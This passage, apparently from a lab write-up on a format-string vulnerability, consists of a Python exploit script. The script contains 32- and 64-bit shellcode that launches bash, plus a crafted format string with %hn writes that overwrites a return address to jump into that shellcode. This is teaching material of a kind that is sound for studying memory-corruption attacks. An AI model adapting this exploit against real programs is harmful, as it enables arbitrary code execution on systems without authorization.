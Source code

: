 ![task-4-a](https://github.com/iukadike/blog/assets/58455326/c0568d33-84ce-4e2d-bd91-d5fde2c31af6)


```python
#!/usr/bin/python3
import sys

# 32-bit Generic Shellcode 
shellcode_32 = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')


# 64-bit Generic Shellcode 
shellcode_64 = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

# Choose the shellcode version based on your target
shellcode = shellcode_32

############################################################
#    Construct the format string here                      #
############################################################

# return address    = 0xffffd18c
# buffer address    = 0xffffd260
# shellcode address = 0xffffd260 + 0x212 = 0xffffd472

content = (0xffffd18c).to_bytes(4,byteorder='little')
content += ("@@@@").encode('latin-1')
content += (0xffffd18e).to_bytes(4,byteorder='little')

# address 0xd472
content += ("%.00600x" * 62).encode('latin-1')
content += ("%.17174x%hn").encode('latin-1')

# address 0xffff
content += ("%.11149x%hn").encode('latin-1')

# determine the size of content before adding the shellcode
#print(f"size of content before shellcode = {len(content)}")    # 530 = 0x212

```
